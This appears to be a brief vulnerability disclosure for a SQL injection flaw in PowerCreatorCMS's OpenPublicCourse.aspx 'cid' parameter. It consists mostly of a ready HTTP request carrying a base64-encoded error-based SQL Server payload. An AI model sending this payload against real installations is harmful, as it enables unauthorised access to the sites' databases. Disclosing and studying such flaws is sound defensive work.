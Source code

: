 # PowerCreatorCMS SQL injection

## installation package：http://www.powercreator.com.cn/

## Vulnerability description：

The OpenPublicCourse.aspx?cid parameter is not filtered strictly, and there is a SQL injection vulnerability

```
GET /OpenPublicCourse.aspx?cid=NSBhbmQgMT1zeXMuZm5fc3FsdmFyYmFzZXRvc3RyKEhhc2hCeXRlcygnTUQ1JywnOTInKSktLQ== HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
![image](https://github.com/user-attachments/assets/b5a03ba4-138c-49eb-9fa2-7c6346eff01f)
